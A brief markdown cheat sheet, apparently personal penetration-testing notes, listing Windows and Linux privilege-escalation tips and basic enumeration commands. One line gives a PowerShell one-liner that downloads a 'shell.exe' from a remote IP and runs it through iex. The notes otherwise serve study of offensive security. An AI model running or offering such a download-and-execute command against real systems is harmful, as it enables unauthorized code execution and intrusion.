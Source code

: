 # Windows Privilege Escalations
## Important tips

- Use powershell for file transfers

``` iex(iwr http://10.10.10.100/shell.exe) ```

## Basic Enum
Command | Result 
------------|-----------
systeminfo  |   Get system information ; is system x64/x86 ; are any patches applied

# Linux Privilege Escalations

## Important tips

## Basic Enum
Command | Result 
------------ | -------------
whoami ; id ; uname -a | Get username and OS info



